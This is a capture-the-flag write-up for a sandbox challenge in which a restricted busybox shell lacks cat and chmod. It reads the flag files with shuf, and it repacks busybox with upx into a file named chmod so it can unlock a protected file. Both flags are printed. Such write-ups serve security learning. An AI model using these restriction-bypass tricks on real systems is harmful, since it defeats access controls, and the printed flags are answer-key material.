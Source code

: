 # Work Computer (sandbox)

With the confidence of conviction and decision making skills that made you a contender for Xenon's Universal takeover council, now disbanded, you forge ahead to the work computer.   This machine announces itself to you, surprisingly with a detailed description of all its hardware and peripherals. Your first thought is "Why does the display stand need to announce its price? And exactly how much does 999 dollars convert to in Xenonivian Bucklets?" You always were one for the trivialities of things.

Also presented is an image of a fascinating round and bumpy creature, labeled "Cauliflower for cWo" - are "Cauliflowers" earthlings?  Your 40 hearts skip a beat - these are not the strange unrelatable bipeds you imagined earthings to be.. this looks like your neighbors back home. Such curdley lobes. Will it be at the party?

SarahH, who appears to be  a programmer with several clients, has left open a terminal.  Oops.  Sorry clients!  Aliens will be poking around attempting to access your networks.. looking for Cauliflower.   That is, *if* they can learn to navigate such things.

readme.ctfcompetition.com 1337

### Solution
```bash
> nc -v readme.ctfcompetition.com 1337
> ls -la
total 12
drwxrwxrwt    2 0        0               80 Jul 14 12:17 .
drwxr-xr-x   20 0        0             4096 Jun 13 14:28 ..
----------    1 1338     1338            33 Jul 14 12:17 ORME.flag
-r--------    1 1338     1338            28 Jul 14 12:17 README.flag
```

Of course, we don't have any commands like: `cat`, `less`, `more` and so on... Let's see what we have:
```bash
> ls -la /bin
total 808
drwxr-xr-x    2 65534    65534         4096 Jun 13 14:28 .
drwxr-xr-x   20 0        0             4096 Jun 13 14:28 ..
lrwxrwxrwx    1 65534    65534           12 May  9 20:49 arch -> /bin/busybox
-rwxr-xr-x    1 65534    65534       796240 Jan 24 07:45 busybox
lrwxrwxrwx    1 65534    65534           12 May  9 20:49 chgrp -> /bin/busybox
lrwxrwxrwx    1 65534    65534           12 May  9 20:49 chown -> /bin/busybox
...

# Dump all available command.
> echo "ls -la /bin /sbin /usr/bin /usr/sbin" | nc -v readme.ctfcompetition.com 1337 > dump.txt

> shuf README.flag  # iconv README.flag
CTF{4ll_D474_5h4ll_B3_Fr33}
> shuf ORME.flag
shuf: ORME.flag: Permission denied
```
In `dump.txt` we can also find the [upx](https://upx.github.io/) command which is an executable packer. Thanks to that we will be able to create a compressed busybox named `chmod`.
```bash
> upx -9 -o /tmp/chmod /bin/busybox
> /tmp/chmod 777 ORME.flag
> shuf ORME.flag
CTF{Th3r3_1s_4lw4y5_4N07h3r_W4y}
```

**FLAG: CTF{4ll_D474_5h4ll_B3_Fr33}**

**FLAG: CTF{Th3r3_1s_4lw4y5_4N07h3r_W4y}**